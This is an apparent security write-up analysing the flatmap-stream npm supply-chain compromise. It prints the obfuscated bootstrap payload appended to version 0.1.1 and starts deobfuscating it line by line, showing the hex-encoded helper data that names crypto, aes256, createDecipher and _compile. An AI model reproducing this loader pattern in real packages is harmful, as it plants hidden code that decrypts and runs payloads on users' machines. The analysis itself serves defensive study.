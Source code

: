 
Above we presented the 2 versions of flatmap-stream.
The difference between versions is an extra
function that has been appended on version 0.1.1. This additional
function makes payload A, the bootstrap, which acts as an enabler for
payloads B and C. This is the code of the payload unminified:

```javascript
! function() {
  try {
      var r = require,
          t = process;
      function e(r) {
          return Buffer.from(r, "hex").toString()
      }
      var n = r(e("2e2f746573742f64617461")),
          o = t[e(n[3])][e(n[4])];
      if (!o) return;
      var u = r(e(n[2]))[e(n[6])](e(n[5]), o),
          a = u.update(n[0], e(n[8]), e(n[9]));
      a += u.final(e(n[9]));
      var f = new module.constructor;
      f.paths = module.paths, f[e(n[7])](a, ""), f.exports(n[1])
  } catch (r) {}
}();
```

This code is unreadable, as it is still obfuscated. Let us walk through
it line by line, deobfuscating and analyzing it.

Function `e` converts a hexadecimal string to text. It is first
used in line 8:

```javascript
var n = r(e("2e2f746573742f64617461"));
```

The hexadecimal string is equivalent to `./test/data`, and function
`r` is the function `require`. So, after renaming `n` to
`testData`, line 8 becomes as follows:

```javascript
var testData = require("./test/data");
```

This line `imports` an auxiliary data file. This data file,
contains 10 hexadecimal string literals. Next to them you can see their
string representation. Multiple of these strings are related to
cryptography and would raise suspicion should anyone see them in a
module such as `flatmap-stream`. Here are the contents of the data
file:

```javascript
module.exports = [
  "75d4c...629", // Payload B
  "db673...6e1", // Payload C
  "63727970746f", // crypto
  "656e76", // env
  "6e706d...f6e", // npm_package_description
  "616573323536", // aes256
  "63726...6572", // createDecipher
  "5f636f6d70696c65", // _compile
  "686578", // hex
  "75746638" // utf8
]; 
```
